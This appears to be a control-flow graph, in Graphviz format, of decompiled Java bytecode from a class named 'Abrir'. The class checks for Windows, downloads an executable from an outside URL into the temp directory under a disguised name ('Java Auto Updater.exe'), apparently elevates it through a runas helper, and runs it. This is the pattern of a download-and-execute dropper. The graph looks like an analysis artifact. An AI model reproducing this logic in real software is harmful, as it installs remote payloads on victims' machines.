 digraph "" {
    "r0 := @this: Abrir"
    "push \"os.name\""
    "r0 := @this: Abrir"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r1"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r1";
    "push 0"
    "store.r r1"->"push 0";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "store.r $r37"
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"store.r $r37";
    "load.r r1"
    "store.r $r37"->"load.r r1";
    "push \"Windows\""
    "load.r r1"->"push \"Windows\"";
    "virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>"
    "push \"Windows\""->"virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>";
    "ifeq return"
    "virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>"->"ifeq return";
    "push \"java.io.tmpdir\""
    "ifeq return"->"push \"java.io.tmpdir\"";
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r2"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r2";
    "store.r r2"->"load.r r1";
    "push \"Windows 7\""
    "load.r r1"->"push \"Windows 7\"";
    "push \"Windows 7\""->"virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>";
    "ifne new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>"->"ifne new java.lang.StringBuilder";
    "ifne new java.lang.StringBuilder"->"load.r r1";
    "push \"Windows Vista\""
    "load.r r1"->"push \"Windows Vista\"";
    "push \"Windows Vista\""->"virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>";
    "ifeq new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>"->"ifeq new java.lang.StringBuilder";
    "new java.lang.StringBuilder"
    "ifeq new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "load.r r2"
    "dup1.r"->"load.r r2";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"
    "load.r r2"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \"javarunas-\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"javarunas-\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"javarunas-\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "staticinvoke <java.lang.Math: double random()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"staticinvoke <java.lang.Math: double random()>";
    "push 65535.0"
    "staticinvoke <java.lang.Math: double random()>"->"push 65535.0";
    "mul.d"
    "push 65535.0"->"mul.d";
    "push 1024.0"
    "mul.d"->"push 1024.0";
    "push 1024.0"->"mul.d";
    "d2i"
    "mul.d"->"d2i";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"
    "d2i"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
    "push \".exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"push \".exe\"";
    "push \".exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r1";
    "store.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"load.r r2";
    "load.r r2"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \"Java Auto Updater.exe\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"Java Auto Updater.exe\"";
    "push \"Java Auto Updater.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r42"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r42";
    "store.r r42"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"\\\"\""
    "dup1.r"->"push \"\\\"\"";
    "push \"\\\"\""->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\\" \\\"\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\" \\\"\"";
    "push \"\\\" \\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r42"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r42";
    "load.r r42"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\" \\\"\"";
    "push \"\\\" \\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\"\"";
    "push \"\\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r2";
    "load.r r0"
    "store.r r2"->"load.r r0";
    "push \"http://www.cavilha.com.br/installer.exe\""
    "load.r r0"->"push \"http://www.cavilha.com.br/installer.exe\"";
    "new java.io.File"
    "push \"http://www.cavilha.com.br/installer.exe\""->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r42";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"
    "load.r r42"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <Abrir: void wget(java.lang.String,java.io.File)>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <Abrir: void wget(java.lang.String,java.io.File)>";
    "virtualinvoke <Abrir: void wget(java.lang.String,java.io.File)>"->"load.r r0";
    "push \"javarunas\""
    "load.r r0"->"push \"javarunas\"";
    "push \"javarunas\""->"load.r r1";
    "virtualinvoke <Abrir: boolean Extrair(java.lang.String,java.lang.String)>"
    "load.r r1"->"virtualinvoke <Abrir: boolean Extrair(java.lang.String,java.lang.String)>";
    "ifeq load.r $r37"
    "virtualinvoke <Abrir: boolean Extrair(java.lang.String,java.lang.String)>"->"ifeq load.r $r37";
    "push 1"
    "ifeq load.r $r37"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"store.r $r37";
    "goto load.r $r37"
    "store.r $r37"->"goto load.r $r37";
    "load.r $r37"
    "goto load.r $r37"->"load.r $r37";
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"
    "load.r $r37"->"virtualinvoke <java.lang.Boolean: boolean booleanValue()>";
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"->"ifeq return";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "ifeq return"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r2";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "store.r r0"
    "staticget <java.lang.System: java.io.PrintStream out>"->"store.r r0";
    "virtualinvoke <java.io.IOException: java.lang.String getMessage()>"
    "store.r r0"->"virtualinvoke <java.io.IOException: java.lang.String getMessage()>";
    "virtualinvoke <java.io.IOException: java.lang.String getMessage()>"->"store.r $r37";
    "store.r $r37"->"load.r r0";
    "load.r r0"->"load.r $r37";
    "virtualinvoke <java.io.PrintStream: void print(java.lang.String)>"
    "load.r $r37"->"virtualinvoke <java.io.PrintStream: void print(java.lang.String)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"store.r r0";
    "virtualinvoke <java.lang.Exception: java.lang.String toString()>"
    "store.r r0"->"virtualinvoke <java.lang.Exception: java.lang.String toString()>";
    "virtualinvoke <java.lang.Exception: java.lang.String toString()>"->"store.r r1";
    "store.r r1"->"load.r r0";
    "load.r r0"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.io.PrintStream: void print(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void print(java.lang.String)>"->"goto load.r $r37";
    "ifeq new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"load.r r2";
    "load.r r2"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \"installer-\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"installer-\"";
    "push \"installer-\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"push 65535.0";
    "push 65535.0"->"mul.d";
    "mul.d"->"push 1024.0";
    "push 1024.0"->"mul.d";
    "mul.d"->"d2i";
    "d2i"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"push \".exe\"";
    "push \".exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r1";
    "store.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"push \"\\\"\"";
    "push \"\\\"\""->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\"\"";
    "push \"\\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r2";
    "store.r r2"->"load.r r0";
    "load.r r0"->"push \"http://www.cavilha.com.br/installer.exe\"";
    "push \"http://www.cavilha.com.br/installer.exe\""->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r1";
    "load.r r1"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <Abrir: void wget(java.lang.String,java.io.File)>";
    "virtualinvoke <Abrir: void wget(java.lang.String,java.io.File)>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"store.r $r37";
    "store.r $r37"->"goto load.r $r37";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"store.r r0";
    "store.r r0"->"virtualinvoke <java.lang.Exception: java.lang.String toString()>";
    "virtualinvoke <java.lang.Exception: java.lang.String toString()>"->"store.r r1";
    "store.r r1"->"load.r r0";
    "load.r r0"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.io.PrintStream: void print(java.lang.String)>";
}
